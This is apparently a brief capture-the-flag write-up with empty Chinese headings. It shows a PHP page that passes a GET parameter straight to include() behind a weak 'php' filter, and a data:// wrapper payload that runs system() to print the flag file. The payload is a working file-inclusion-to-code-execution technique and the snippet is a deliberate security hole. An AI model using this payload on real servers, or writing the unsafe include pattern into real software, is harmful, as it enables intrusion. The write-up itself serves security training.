

# 知识点
# 思路
```bash
<?php

if(isset($_GET['file'])){
    $file = $_GET['file'];
    $file = str_replace("php", "???", $file);
    include($file);
}else{
    highlight_file(__FILE__);
}
```
```bash
?file=data://text/palin,<?= system("tac flag.???") ?>
```

